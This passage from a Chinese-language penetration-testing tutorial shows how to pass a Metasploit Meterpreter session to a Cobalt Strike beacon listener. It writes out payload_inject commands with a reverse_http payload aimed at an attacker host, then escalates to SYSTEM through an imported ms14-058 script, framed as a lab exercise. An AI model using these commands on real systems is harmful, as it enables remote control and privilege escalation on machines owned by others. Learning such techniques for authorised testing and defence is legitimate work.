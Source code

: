 这里还是新建一个监听器，设置模块为`beacon HTTP`

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcrbgTarG3OIv8wKObcGMhtsGw1hVX7S99geNxkh4u6B5vdCcPFBgy5fO907krv2DrDEFfv0h2zvZw/640?wx_fmt=png)

接下来把 kali 上获得的`meterpreter会话`转发到`cobaltstrike主机`上，

这里我们需要用到一个`exploit模块`：

```
1.  exploit/windows/local/payload_inject

2.  set payload windows/meterpreter/reverse_http

3.  set DisablePayloadHandler true

4.  set lhost 192.168.43.147

5.  set lport  8081

6. set  session 4

7.  run
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcrbgTarG3OIv8wKObcGMhtsyljksL8dWMkIJibISmO3nbDGvS6chzl8ucqvt1RczGBFHAn1q3du8DA/640?wx_fmt=png)  

这时候返回客户端可以发现已经返回一个名为 CS 的会话

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcrbgTarG3OIv8wKObcGMhtsNgKuGF4ccpACJlQvGgR5KbrZ02fCV9PmmvzicopUx5wfbfNcOJeA4Bw/640?wx_fmt=png)

#### Cobaltstrike 提权

当我们拿到会话时，首先应该输入`sleep 1`来修改响应时间，

因为 cs 默认执行命令响应为`60/s`，这样子太慢了。

影响实验效率

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcrbgTarG3OIv8wKObcGMhtsSkXqpIHq8VP053qgO8oYDjLMgRUsibyuhibwA9fRCvQpeSYZyJGEMibibg/640?wx_fmt=png)  

**接下来要怎么提权呢？**

我们回到`beacon shell`输入`elevate`查看可用的提权脚本，发现只有两个。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcrbgTarG3OIv8wKObcGMhtsgDryJY7WCicQVibSqstIyOapHZMyj9PRx7a47nKiaycfKHjGnXUXtgzpw/640?wx_fmt=png)  

为了丰富我们的提权脚本，我们可以自己导入一个多提权脚本。

导入很简单：`cobalt strike-》脚本-》laod->选择要导入cna`即可。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcrbgTarG3OIv8wKObcGMhtsB2QEHnpp5X0baFeIyr34yYXCAarMzibOXQdUYeBibvmXObKOjMPgcHnQ/640?wx_fmt=png)

导入成功后，我们使用各个导入的脚本尝试提权：

`右键会话-》梼杌-》权限维持-》ms14-058`，

这时候可以看到返回一个`system的会话`，说明提权成功。
